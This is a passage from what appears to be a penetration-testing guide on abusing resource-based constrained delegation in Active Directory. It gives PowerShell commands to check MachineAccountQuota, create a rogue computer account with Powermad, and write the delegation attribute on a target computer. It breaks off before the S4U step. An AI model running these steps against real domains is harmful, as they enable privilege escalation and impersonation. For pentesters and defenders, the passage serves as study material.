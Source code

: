To check the _**MachineAccountQuota**_ of the domain you can use:

```bash
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using **[powermad](https://github.com/Kevin-Robertson/Powermad):**

```bash
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```

### Configuring Resource-based Constrained Delegation

**Using activedirectory PowerShell module**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

**Using powerview**

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Performing a complete S4U attack (Windows/Rubeus)

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:
